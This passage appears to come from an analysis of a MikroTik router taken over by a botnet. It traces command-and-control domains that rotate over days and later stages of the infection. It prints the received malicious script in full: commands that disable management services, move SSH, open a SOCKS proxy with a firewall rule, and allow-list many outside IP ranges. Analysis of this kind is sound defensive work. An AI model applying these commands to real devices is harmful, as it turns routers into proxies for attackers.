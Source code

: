 later it was replaced with specialword.xyz, then back to weirdgames.info, then to portgame.website, then massgames.space, then back to weirdgames.info, then to globymoby.xyz, then back to massgames.space, then portgame.website, back to weirdgames.info, then to widechanges.best,.... and it just kinda cycles through these C2 domains for days. Eventually we do move on to stage 4. 

4. Eventually we do get a new copy of 7xe7zt46hb08. In this case 11 days after the first instance. Then it goes back to stage 3 for a while, except this time it's got now listening for SOCKS connections. 
```
name="7xe7zt46hb08" type="file" size=290 creation-time=may/24/2021 09:15:24 
   contents=
     /ip service disable winbox
     /ip service disable telnet
     /ip service disable api
     /ip service disable api-ssl
     /ip service set ssh port=21781
     /ip socks set enabled=yes
     /ip socks set port=5678
     /ip firewall filter add action=accept chain=input disabled=no dst-port=5678 protocol=tcp place-before=1
```

5. After another day passed a new version of 7xe7zt46hb08 was received. This one adding a long access list to our SOCKS configuration. Then when went back to stage 3 for another day. 

```
name="7xe7zt46hb08" type="file" size=4061 creation-time=may/25/2021 15:51:20 
contents=
  /ip socks access add src-address=77.238.240.0/24 action=allow
  /ip socks access add src-address=178.239.168.0/24 action=allow
  /ip socks access add src-address=77.238.228.0/24 action=allow
  /ip socks access add src-address=94.243.168.0/24 action=allow
  /ip socks access add src-address=213.33.214.0/24 action=allow
  /ip socks access add src-address=31.172.128.45/32 action=allow
  /ip socks access add src-address=31.172.128.25/32 action=allow
  /ip socks access add src-address=10.0.0.0/8 action=allow
  /ip socks access add src-address=185.137.233.251/32 action=allow
  /ip socks access add src-address=5.9.163.16/29 action=allow
  /ip socks access add src-address=176.9.65.8/32 action=allow
  /ip socks access add src-address=82.202.248.5/32 action=allow
  /ip socks access add src-address=95.213.193.133/32 action=allow
  /ip socks access add src-address=136.243.238.211/32 action=allow
  /ip socks access add src-address=178.238.114.6/32 action=allow
  /ip socks access add src-address=46.148.232.205/32 action=allow
  /ip socks access add src-address=138.201.170.176/29 action=allow
  /ip socks access add src-address=178.63.52.202/29 action=allow
  /ip socks access add src-address=136.243.90.81/29 action=allow
  /ip socks access add src-address=136.243.21.233/29 action=allow
  /ip socks access add src-address=95.213.221.0/24 action=allow
  /ip socks access add src-address=159.255.24.0/24 action=allow
  /ip socks access add src-address=31.184.210.0/24 action=allow
  /ip socks access add src-address=188.187.119.0/24 action=allow
  /ip socks access add src-address=188.233.1.0/24 action=allow
  /ip socks access add src-address=188.233.5.0/24 action=allow
  /ip socks access add src-address=188.233.13.0/24 action=allow
  /ip socks access add src-address=188.232.101.0/24 action=allow
  /ip socks access add src-address=188.232.105.0/24 action=allow
  /ip socks access add src-address=188.232.109.0/24 action=allow
  /ip socks access add src-address=176.212.165.0/24 action=allow
  /ip socks access add src-address=176.212.169.0/24 action=allow
  /ip socks access add src-address=176.212.173.0/24 action=allow
  /ip socks access add src-address=176.213.161.0/24 action=allow
  /ip socks access add src-address=176.213.165.0/24 action=allow
  /ip socks access add src-address=176.213.169.0/24 action=allow
  /ip socks access add src-address=5.3.113.0/24 action=allow
```